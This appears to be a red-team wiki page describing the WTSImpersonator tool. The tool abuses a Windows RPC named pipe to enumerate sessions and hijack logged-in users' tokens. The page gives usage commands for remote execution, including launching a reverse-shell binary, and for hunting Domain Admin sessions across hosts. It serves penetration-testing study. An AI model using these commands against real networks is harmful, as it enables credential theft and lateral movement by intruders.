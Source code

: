 
<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

The **WTS Impersonator** tool exploits the **"\\pipe\LSM_API_service"** RPC Named pipe to stealthily enumerate logged-in users and hijack their tokens, bypassing traditional Token Impersonation techniques. This approach facilitates seamless lateral movements within networks. The innovation behind this technique is credited to **Omri Baso, whose work is accessible on [GitHub](https://github.com/OmriBaso/WTSImpersonator)**.

### Core Functionality
The tool operates through a sequence of API calls:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```

### Key Modules and Usage
- **Enumerating Users**: Local and remote user enumeration is possible with the tool, using commands for either scenario:
  - Locally:
    ```powershell
    .\WTSImpersonator.exe -m enum
    ```
  - Remotely, by specifying an IP address or hostname:
    ```powershell  
    .\WTSImpersonator.exe -m enum -s 192.168.40.131  
    ```

- **Executing Commands**: The `exec` and `exec-remote` modules require a **Service** context to function. Local execution simply needs the WTSImpersonator executable and a command:
  - Example for local command execution:
    ```powershell
    .\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe  
    ```
  - PsExec64.exe can be used to gain a service context:
    ```powershell
    .\PsExec64.exe -accepteula -s cmd.exe
    ```

- **Remote Command Execution**: Involves creating and installing a service remotely similar to PsExec.exe, allowing execution with appropriate permissions.
  - Example of remote execution:
    ```powershell
    .\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
    ```

- **User Hunting Module**: Targets specific users across multiple machines, executing code under their credentials. This is especially useful for targeting Domain Admins with local admin rights on several systems.
  - Usage example:
    ```powershell
    .\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe 
    ```


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>